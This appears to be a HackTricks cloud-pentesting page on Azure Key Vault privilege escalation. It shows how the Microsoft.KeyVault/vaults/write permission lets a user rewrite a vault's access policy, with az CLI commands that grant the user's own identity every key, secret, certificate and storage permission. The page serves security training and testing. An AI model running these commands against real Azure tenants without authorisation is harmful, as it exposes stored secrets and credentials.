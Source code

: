 # Az - Key Vault Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Key Vault

For more information about this service check:

{{#ref}}
../az-services/keyvault.md
{{#endref}}

### Microsoft.KeyVault/vaults/write

An attacker with this permission will be able to modify the policy of a key vault (the key vault must be using access policies instead of RBAC).

```bash
# If access policies in the output, then you can abuse it
az keyvault show --name <vault-name>

# Get current principal ID
az ad signed-in-user show --query id --output tsv

# Assign all permissions
az keyvault set-policy \
  --name <vault-name> \
  --object-id <your-object-id> \
  --key-permissions all \
  --secret-permissions all \
  --certificate-permissions all \
  --storage-permissions all
```

{{#include ../../../banners/hacktricks-training.md}}




